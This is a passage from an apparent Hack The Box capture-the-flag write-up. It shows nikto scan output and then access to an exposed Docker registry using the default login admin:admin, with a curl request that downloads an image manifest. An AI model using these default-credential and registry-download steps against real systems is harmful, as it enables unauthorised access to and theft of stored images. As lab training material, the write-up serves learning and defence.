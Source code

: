 ```
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Hostname '10.10.10.159' does not match certificate's names: docker.registry.htb
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ OSVDB-3092: /install/: This might be interesting...
+ 7876 requests: 8 error(s) and 5 item(s) reported on remote host
+ End Time:           2020-04-03 00:49:25 (GMT5.75) (11114 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


### Docker Registry Exploit

Then I found the dir with dirsearch as `http://docker.registry.htb/v2/` and able to login with creds `admin:admin`. So I googled about it and found the interesting blog which explain how can we exploit the docker registry to download the stored files. You can find it [here](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry).


Then I used this blog to exploit the docker registry and downloaded the file as 

```
root@gr4n173:~$ curl --user "admin:admin" http://docker.registry.htb/v2/bolt-image/manifests/latest                [80/311]
{                                                                                                                                                     
   "schemaVersion": 1,                                                                                                                                
   "name": "bolt-image",                                                                                                                              
   "tag": "latest",                                                                                                                                   
   "architecture": "amd64",                                                                                                                           
   "fsLayers": [                                                                                                                                      
      {                                                                                                                                               
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"                                                         
      },                                                                                                                                              
      {                                                                                                                                               
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"                                                         
```